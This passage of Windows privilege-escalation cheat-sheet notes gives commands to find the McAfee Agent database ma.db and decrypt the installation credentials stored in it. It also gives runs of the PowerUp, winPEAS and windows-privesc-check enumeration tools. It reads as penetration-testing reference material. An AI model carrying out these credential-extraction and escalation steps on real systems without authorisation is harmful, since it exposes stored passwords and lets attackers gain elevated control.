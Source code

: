 -> Identify  
```
dir /s *.db
```
-> McAfee Enterprise Endpoint Security - Credentials used during installation  

```
C:\ProgramData\McAfee\Agent\DB\ma.db
sqlitebrowser ma.db
python2 mcafee_sitelist_pwd_decrypt.py <AUTH PASSWD VALUE>
```
https://raw.githubusercontent.com/funoverip/mcafee-sitelist-pwd-decryption/master/mcafee_sitelist_pwd_decrypt.py

## Windows Enumeration Tools
-> PowerUp.ps1  
```
. .\PowerUp.ps1
Invoke-AllChecks
```
https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1  

-> winPEASany.exe
```
winPEASany.exe
```
https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS  

-> windows-privesc-check2.exe  
```
windows-privesc-check2.exe --dump -G
```
https://github.com/pentestmonkey/windows-privesc-check
